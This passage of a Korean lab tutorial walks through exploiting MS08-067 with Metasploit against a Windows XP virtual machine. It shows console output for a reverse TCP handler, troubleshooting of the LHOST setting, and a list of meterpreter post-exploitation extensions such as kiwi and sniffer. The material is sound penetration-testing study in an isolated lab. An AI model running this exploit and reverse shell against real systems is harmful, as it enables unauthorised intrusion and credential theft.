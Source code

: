 ![exploit성공](/images/metasploit-ms08-067-exploit-success.png)


### exploit을 실패하는 경우 
참고로 exploit을 실패하는 경우에는 다음처럼 출력된다. `Exploit completed, but no session was created.` 원인은 LHOST (공격측)의 IP주소가 희생자측 IP주소에 접근가능한 네트워크(여기서는 내부 네트워크)의 IP주소로 설정되어 있지 않는 것이 원인이었다. LHOST를 공격자측이 할당받은 내부 네트워크의 IP주소(여기서는 192.168.56.102)로 설정해줘야 한다. 그리고 이 취약점의 경우는 LHOST를 제대로 설정하지 않은 상태에서 exploit을 시도하면 희생자측 시스템의 SMB 서비스가 망가지는 현상이 있으므로, 희생자측 서비스도 복구해야 한다. (Virtualbox로 미리 스냅샷을 떠두면 좋다.)

```sh
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 192.168.56.101:445 - Automatically detecting the target...
[*] 192.168.56.101:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 192.168.56.101:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.56.101:445 - Attempting to trigger the vulnerability...
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/ms08_067_netapi) > 

```

# exploit 후에 가능한 것들
meterpreter 세션이 성립된 후에 가능한 것들을 정리한다. 

## 사용가능한 기능 조사 
- `help`를 치면 사용가능한 다양한 커맨드를 알려준다. help에서 알려주는 기능만해도 꽤 다양하다. 
- 또한 `use -l`을 쳐보면 어떤 확장 기능을 사용가능한지 목록으로 알려준다. help에서 알려주는 기능과는 또 다른 기능으로 보인다. 

```sh
meterpreter > use -l
bofloader
espia
extapi
incognito
kiwi
lanattacks
peinjector
powershell
priv
python
sniffer
stdapi
unhook
winpmem
meterpreter > 
```
